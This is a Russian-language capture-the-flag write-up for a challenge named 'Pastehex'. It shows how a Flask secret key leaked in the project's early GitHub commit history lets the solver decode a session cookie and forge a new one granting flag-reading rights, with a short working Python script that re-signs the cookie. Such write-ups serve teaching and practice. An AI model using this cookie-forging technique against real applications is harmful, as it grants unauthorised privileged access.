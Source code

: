 # Pastehex: Write-up

Дана ссылка на сервис Абу и сессия.

В условии сказано, что проект лежит где-то на гитхабе, значит мы можем посмотреть исходники.
1) [Ищем](https://github.com/search?q=pastehex) pastehex (`:^) это отсылка на существующий сервис pastebin`) по гитхабу. Получаем 2 репозитория, нам нужен [этот](https://github.com/abuproger777/pastehex)
2) Видим коммит под названием `hotfix`. Изучив его, видим, что Абу избавился от XSS уязвимости.
3) Изучаем историю коммитов и в первом коммите видим, что Абу слил секретный ключ. Попробуем декодировать данную сессию. Получаем: `{"is_admin": True, "can_read_flag": False}`
4) С помощью секретного ключа мы можем сгенерировать новую сессию со значениями `{"is_admin": True, "can_read_flag": True}`.

```python
from flask.sessions import SecureCookieSessionInterface

session_cookie = "eyJjYW5fcmVhZF9mbGFnIjpmYWxzZSwiaXNfYWRtaW4iOnRydWV9.YXjU7w.w9asQCbJApcTY-bfEBE_Ge9TTlA"
class App:
    secret_key = "420bf172a6297fc6558b8a6075af347a83b124ccd8551b181a62bac7aefef321"

s = SecureCookieSessionInterface().get_signing_serializer(App)
data = s.loads(session_cookie)
data["can_read_flag"] = True
print(s.dumps(data))
```

Получаем новую сессию.
Заходим на страничку all_posts с этой кукой и видим:

![flag](imgs/flag.jpg)

Переходим по [ссылке](https://bit.ly/3vLmsBl) и получаем флаг!

Флаг: **kettle_please_make_sure_that_your_secret_keys_are_safe**

